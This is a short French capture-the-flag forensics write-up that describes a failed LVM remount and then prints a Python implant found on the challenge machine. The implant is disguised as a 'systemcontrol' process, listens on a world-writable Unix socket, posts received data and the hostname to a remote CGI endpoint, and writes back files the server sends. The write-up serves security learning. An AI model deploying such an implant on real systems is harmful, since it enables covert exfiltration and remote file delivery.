 Cependant durant le write-up....
```
mount /dev/mapper/cs_simonserver-root /mnt/lvm_root/
mount: /mnt/lvm_root: can't read superblock on /dev/mapper/cs_simonserver-root.
       dmesg(1) may have more information after failed mount system call.
```

Et je n'ai jamais reussie a remonter le filesystem. Heureusement j'ai la moitier du flag en backup et je peux quand meme expliquer le challenge.

J'ai regarder les log et j'ai vu des log d'un processus systemcontrol en python

```python
#!/usr/bin/env python3

from socketserver import UnixStreamServer, StreamRequestHandler, ThreadingMixIn
import os
import socket
import requests
import time
import base64

# RmxhZyBQYXJ0IDI6IF9oM3IzX2hhaGFoYWhhfQ==

sockFile = "/tmp/systemcontrol614af1b65d944d989a457c21a39b4377.sock"
url = 'https://REDACTED/cgi-bin/614af1b65d944d989a457c21a39b4377.php'
try:
    os.remove(sockFile)
except OSError:
    pass

class Handler(StreamRequestHandler):
    def handle(self):
        while True:
            msg = self.rfile.readline()
            if msg:
                response = requests.post(url+'?op=upload', json={
                    'data': base64.b64encode(msg).decode('utf-8'),
                    'id': self.connection.fileno(),
                    'time': int(time.time()),
                    'hostname': socket.gethostname()
                })

                if response.headers.get('Content-Disposition'):
                    filename = response.headers['Content-Disposition'].split('filename=')[1].strip('"')
                    with open(filename, 'wb') as f:
                        f.write(response.content)
            else:
                return

class ThreadedUnixStreamServer(ThreadingMixIn, UnixStreamServer):
    pass

with ThreadedUnixStreamServer(sockFile, Handler) as server:
    os.chmod(sockFile, 0o0777);
    server.serve_forever()
```
